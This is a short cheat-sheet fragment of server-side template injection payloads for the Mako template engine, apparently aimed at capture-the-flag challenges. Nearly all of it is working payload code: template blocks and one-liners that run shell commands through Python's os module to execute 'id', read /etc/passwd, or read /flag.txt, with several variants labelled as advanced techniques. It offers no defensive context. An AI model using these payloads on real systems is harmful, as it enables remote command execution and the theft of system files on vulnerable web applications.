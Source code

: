 ```
<%
    import os
    x = os.popen('id').read()
%>
${x}
```

### One-liner Commands

```
${__import__('os').popen('id').read()}
${__import__('os').popen('cat /etc/passwd').read()}
${__import__('os').popen('cat /flag.txt').read()}
```

## Advanced Techniques

### Using Python Blocks

```
<%
    import os
    os.system('cat /flag.txt')
%>
```

### Function Definition

```
<%def name="exploit()">
    <% 
        import os
        return os.popen('cat /flag.txt').read()
    %>
</%def>
${exploit()}
```

### Using Namespaces

```
<%
    __M_writer=__import__('os').popen('cat /flag.txt').read
%>
${__M_writer()}
```

### Context Manipulation

```
<% 
    context.write(__import__('os').popen('cat /flag.txt').read())
%>
```
